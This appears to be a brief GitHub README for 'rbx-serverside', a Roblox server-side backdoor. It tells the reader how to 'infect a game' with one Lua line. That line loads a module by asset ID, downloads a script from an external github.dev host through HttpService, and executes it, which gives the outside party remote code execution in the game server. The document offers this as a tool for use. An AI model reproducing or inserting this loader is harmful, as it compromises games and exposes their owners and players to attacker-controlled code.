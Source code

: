 # rbx-serverside
[roblox serverside](https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/)


to infect a game put: 
  ```lua
    require(108059886578663)(game:GetService("HttpService"):GetAsync("https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/script.lua"))()
  ```
